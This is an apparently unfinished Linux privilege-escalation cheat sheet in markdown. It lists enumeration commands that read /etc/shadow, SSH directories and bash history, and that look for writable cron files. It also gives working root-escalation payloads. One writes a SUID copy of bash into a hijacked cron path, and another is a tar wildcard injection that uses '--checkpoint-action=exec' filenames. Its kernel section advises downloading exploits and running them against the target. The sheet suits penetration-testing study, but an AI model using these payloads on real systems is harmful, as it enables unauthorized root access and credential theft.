 # Linux Privilege Escalation Cheat Sheet
## Initial Enumeration
### System Enumeration
```bash
hostname
uname -a
cat /proc/version
cat /etc/issue
lscpu
```
### Process Enumeration
```bash
ps aux
ps aux | grep root
```
### User Enumeration
```bash
whoami
id
sudo -l
cat /etc/passwd
cat /etc/passwd | cut -d : -f 1
cat /etc/shadow
cat /etc/group
```
```bash
history
```
### Network Enumeration
```bash
ifconfig
ip a
ip route
arp -a
ip neigh
```
```bash
netstat -ano
```
### Password Hunting
 
## Automated Enumeration

## Kernel Exploit
### Kernel Exploit Enumeration
#### Check System Information

```bash
hostname
uname -a
cat /etc/lsb-release
cat /proc/version
cat /etc/os-release
cat /etc/issue
lscpu
```
#### Check Running Process Information
```bash
ps aux
ps aux | grep root
```
### Kernel Exploitation Process
  1. Google for Exploits against the OS and Kernel Version 
  2. Download, compile, and run it against the target if it exists
  3. Try something else if it does not exist.

## Escalation via Scheduled Tasks
### Check writeable Files and Directories
```bash
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```
Pay particulalar attention to the following locations
  * /etc/init.d
  * /etc/cron*
  * /etc/crontab
  * /etc/cron.allow
  * /etc/cron.d 
  * /etc/cron.deny
  * /etc/cron.daily
  * /etc/cron.hourly
  * /etc/cron.monthly
  * /etc/cron.weekly
  * /etc/sudoers
  * /etc/exports
  * /etc/anacrontab
  * /var/spool/cron
  * /var/spool/cron/crontabs/root

### Enumerate Scheduled Tasks By checking the scheduled tasks
```bash
crontab -l
ls -lah /var/spool/cron
ls -lah /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
systemctl list-timers --all
```
### Escalation via Cron Paths
  1. Check the PATH= Variable.
  2. Check what files are being run.
  3. Check if the file exists in the file path from left to right.
      * If it does not exist, check if you can write the file


           i. Create The File With:
           
            echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > <path>/<file>
            chmod +x <path><file>
        
           ii. Escalate Privilege
         
            /tmp/bash

      * If the file exists before you find a writeable location, try something else.

### Escalation via Wildcards
If a command accepts wildcards as an argument and it is present in the crontab or cronjob do the following:
1. Research the executable
2. Create files where the name of the file if fed as part of the argument
3. The executable will interpret the name of the file as part of the command
4. Profit

Tar is a good example of this with the payloads
```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > root.sh
chmod +x root.sh
```
```bash
--checkpoint=1
--checkpoint-action=exec=sh root,sh
```

## Check OS version
## Check Kernel Version

## List current running processes
Look for processes running as root. A misconfigured or vulnerable running as run can be an easy win.
ps aux | grep root
List current processes
ps au

## List the contents of the Home Directory
 
 ls /home
 
## List the contents of a users home directory
 
 ls -lah /home/<user>

## Check and retrieve the content of the SSH Directory

  These can be used to access other systems within the environment
  ls -lah /home/<user>/.ssh
  
## Check the Bash HIstory
  history
  
## List a users sudo privileges
  sudo -l
  
## Check the content of /etc/passwd
  cat /etc/passwd
  
## Check the Content of /etc/cron*
  ls /etc/cron.*
  cat /etc/cron*/<cronjob>
  
## kust File Systems and Additional Drives
  lsblk
  
## Find Writeable Directories
  find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null

## Find writeable files
  find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
  
#
